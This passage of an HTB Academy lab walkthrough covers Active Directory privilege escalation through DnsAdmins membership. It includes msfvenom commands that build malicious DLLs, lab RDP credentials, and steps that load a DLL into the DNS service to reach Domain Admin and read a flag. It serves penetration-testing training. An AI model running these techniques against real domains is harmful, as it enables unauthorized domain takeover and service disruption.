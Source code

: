 #### 8. Sign Out and Reconnect
```bash
# Sign out from current RDP session to refresh permissions
# Reconnect with same credentials
xfreerdp /v:10.129.43.42 /u:netadm /p:'HTB_@cademy_stdnt!'

# This step is important to refresh the session with new Domain Admin privileges
```

#### 9. Access Administrator Desktop and Retrieve Flag
```cmd
# Open Command Prompt with Domain Admin privileges
# Access the flag file
type C:\Users\Administrator\Desktop\DnsAdmins\flag.txt

# Submit the flag content to HTB Academy
```

### Key Success Indicators

1. **✅ DLL Generation**: 8704 bytes adduser.dll created successfully
2. **✅ HTTP Server**: Python server serving on port 7777
3. **✅ DLL Download**: adduser.dll present in C:\Users\netadm\
4. **✅ Registry Configuration**: "Registry property serverlevelplugindll successfully reset"
5. **✅ DNS Service Restart**: Both stop and start commands complete successfully
6. **✅ Privilege Escalation**: netadm appears in Domain Admins group
7. **✅ Administrator Access**: Can read files in C:\Users\Administrator\Desktop\DnsAdmins\

### Alternative Attack Methods

#### Method A: Direct Administrator Access
```bash
# Generate DLL for direct access
msfvenom -p windows/x64/exec cmd='copy c:\Users\Administrator\Desktop\DnsAdmins\flag.txt c:\Users\netadm\Desktop\flag.txt' -f dll -o getflag.dll
```

#### Method B: Service Account Technique
```bash
# Generate DLL to enable RDP for netadm
msfvenom -p windows/x64/exec cmd='net localgroup "Remote Desktop Users" netadm /add' -f dll -o rdp.dll
```

## 🧹 Cleanup and Restoration

### ⚠️ Important Considerations
```cmd
# WARNING: This is a destructive attack
- Only perform with explicit client permission
- DNS service disruption affects entire domain
- Always have cleanup plan ready
- Document all changes made
```

